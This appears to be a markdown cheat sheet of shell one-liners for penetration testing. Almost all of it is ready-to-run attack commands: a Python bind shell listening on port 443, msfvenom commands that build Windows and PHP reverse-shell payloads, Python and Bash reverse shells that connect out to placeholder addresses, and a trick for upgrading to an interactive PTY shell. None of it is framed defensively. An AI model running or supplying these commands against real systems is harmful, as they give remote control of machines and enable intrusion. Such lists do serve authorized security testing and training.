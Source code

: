 # Cheatsheets - Shells
## Table of Contents
* [Bind Shells](#bind-shells)
  * [Python](#python-bind-shell)
* [Reverse Shells](#reverse-shells)
  * [Msfvenom](#msfvenom-reverse-shells)
  * [Python](#python-reverse-shells) 
  * [BASH](#bash-reverse-shells) 
* [Upgrade to a PTY Shell](#upgrade-to-a-pty-shell)
  * [Python PTY Shell](#python-pty-shell) 

## Bind Shells
#### Python Bind Shell
```python
python -c 'import socket,os,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",443));s.listen(5);c,a=s.accept();os.dup2(c.fileno(),0);os.dup2(c.fileno(),1);os.dup2(c.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

## Reverse Shells
#### Msfvenom Reverse Shells
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o shell.exe
msfvenom -p php/reverse_php LHOST=$LHOST LPORT=$LPORT -f raw -o shell.php
```

#### Python Reverse Shells
```python
export RHOST="10.10.10.10"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

#### Bash Reverse Shells
```bash
bash -i >& /dev/tcp/10.0.0.1/443 0>&1
```

## Upgrade to a PTY Shell
#### Python PTY Shell
```bash
echo "import pty; pty.spawn('/bin/bash')" > /tmp/shell.py
python /tmp/shell.py
```
